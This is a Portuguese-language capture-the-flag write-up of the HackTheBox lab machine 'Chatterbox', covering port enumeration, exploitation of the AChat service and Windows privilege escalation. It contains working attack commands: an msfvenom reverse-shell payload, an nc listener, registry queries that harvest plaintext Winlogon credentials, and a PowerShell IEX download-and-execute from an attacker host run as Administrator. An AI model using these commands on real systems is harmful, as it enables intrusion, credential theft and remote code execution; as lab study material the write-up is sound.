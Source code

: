 Chatterbox
========================

# Enumeratioin


    sudo nmap_enum chatterbox.htb | tee nmap_output.txt
    
RPC null session (um vetor de ataque)
    
    rpcclient -U '' -N 10.10.10.74

![qownnotes-media-XaDbQi](../../../media/qownnotes-media-XaDbQi.png)

    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn chatterbox.htb
        
Portas UDPs nem ajudaram com nada:

    rpcinfo -s 10.10.10.74

Nada

![qownnotes-media-WzkmME](../../../media/qownnotes-media-WzkmME.png)

    smbclient -L //10.10.10.74
    
    smbclient -L //10.10.10.74 -U ''
    
    smbclient -L //10.10.10.74 -U '' -N

Nada de ajudar

http://chatterbox.htb:9255
http://10.10.10.74:9255

Esse foi o cara que ajudou:

    nmap -p- -T5 -n -Pn 10.10.10.74

![qownnotes-media-VnVaHB](../../../media/qownnotes-media-VnVaHB.png)

![qownnotes-media-nNxkKl](../../../media/qownnotes-media-nNxkKl.png)

Fomos pesquisar a respeito e vejam só:

<https://github.com/mpgn/AChat-Reverse-TCP-Exploit/tree/master>

# Exploitation

Dando uma lida no exploit desse cara, deu pra chegar a seguinte conclusão:

    msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=10.10.10.74 LHOST=10.10.14.4 LPORT=8080 exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

Peguei o exploit que estava lá e coloquei o conteúdo gerado pelo último comando dentro do exploit que ficou assim:

    wget https://github.com/mpgn/AChat-Reverse-TCP-Exploit/raw/master/AChat_Exploit.py -o exploi.py
    
    vi exploit.py

Alterar o IP da vítima
![qownnotes-media-jMFwQN](../../../media/qownnotes-media-jMFwQN.png)

    nc -nlvp 8080
    python2 exploit.py

qui foi sem novidade!

![qownnotes-media-laxBKF](../../../media/qownnotes-media-laxBKF.png)

# Privilege Escalation

Aqui vale ressaltar que pegamos uma crredencial em texto clarto no registro do windows com o seguinte comando:
  
Eu fiz uma tentativa com:

     whoami /priv
![qownnotes-media-ltnyVm](../../../media/qownnotes-media-ltnyVm.png)

Parti para um outro vetor:

    systeminfo > si.txt

Sem sucesso, porrque tinha muito KB instalado:


    reg query HKCU /f password /t REG_SZ /s

![qownnotes-media-zRFLCQ](../../../media/qownnotes-media-zRFLCQ.png)

Vale resslatar que com os comandos abaixo também seria possívell obter esse resultado:

    PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName                                                                                                                         
Alfred
    
    PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword                                                                                                                         
Welcome1!

Depois disso basta testar essa credencial para o admin da máquina com os seguintes comandos:

    $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
    Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4:8000/shell.ps1')" -Credential $cred

![qownnotes-media-faunIn](../../../media/qownnotes-media-faunIn.png)

![qownnotes-media-PqWFdx](../../../media/qownnotes-media-PqWFdx.png)

![qownnotes-media-eVQMMf](../../../media/qownnotes-media-eVQMMf.png)
